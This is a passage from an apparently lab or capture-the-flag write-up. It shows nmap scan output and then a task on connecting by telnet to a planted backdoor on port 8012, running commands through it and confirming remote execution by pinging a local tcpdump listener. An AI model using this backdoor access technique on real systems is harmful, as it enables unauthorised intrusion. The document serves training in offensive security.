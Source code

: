 Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 34)     (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10(92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8012/tcp)
HOP RTT       ADDRESS
1   165.94 ms 10.14.0.1
2   166.39 ms <ip>

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 166.24 seconds{% endraw %}{% endcapture %} {% include code.html code=code%}


### Task 7 - Exploiting Telnet

Now that the port running `telnet` and more info on it is discovered, we can try to access it.
{% capture code %}{% raw %}telnet <ip> 8012{% endraw %}{% endcapture %} {% include code.html code=code%}

Basic navigation can be done from `telnet` as below.
{% capture code %}{% raw %}Trying <ip>...
Connected to <ip>.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
.HELP
.HELP: View commands
 .RUN <command>: Execute commands
.EXIT: Exit
.RUN ls{% endraw %}{% endcapture %} {% include code.html code=code%}

Start a tcpdump listener locally in another session.
{% capture code %}{% raw %}tcpdump ip proto \\icmp -i <tun0|eth0>{% endraw %}{% endcapture %} {% include code.html code=code%}

An output similar to below will be obtained.
{% capture code %}{% raw %}tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes{% endraw %}{% endcapture %} {% include code.html code=code%}

In the telnet session, try to ping local ip to see if connection can be established and commands can be executed.
{% capture code %}{% raw %}.RUN ping -c1 <local-ip>{% endraw %}{% endcapture %} {% include code.html code=code%}

The ping packets can be seen in tcpdump listener session.
An output similar to below will be obtained.
{% capture code %}{% raw %}23:16:09.761762 IP <ip> > <hostname>: ICMP echo request, id 1017, seq 1, length 64
23:16:09.761827 IP <hostname> > <ip>: ICMP echo reply, id 1017, seq 1, length 64{% endraw %}{% endcapture %} {% include code.html code=code%}
